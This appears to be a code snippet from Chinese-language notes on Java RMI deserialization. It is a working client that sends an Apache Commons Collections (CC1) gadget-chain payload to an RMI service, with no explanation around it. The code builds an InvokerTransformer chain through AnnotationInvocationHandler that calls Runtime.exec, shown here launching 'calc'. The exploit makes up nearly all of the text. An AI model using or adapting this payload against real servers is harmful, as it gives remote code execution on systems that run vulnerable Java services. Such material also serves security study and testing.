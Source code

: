 客户端

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMIunser.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.Example(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```

![image-20220411231212043](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220411231212043.png)
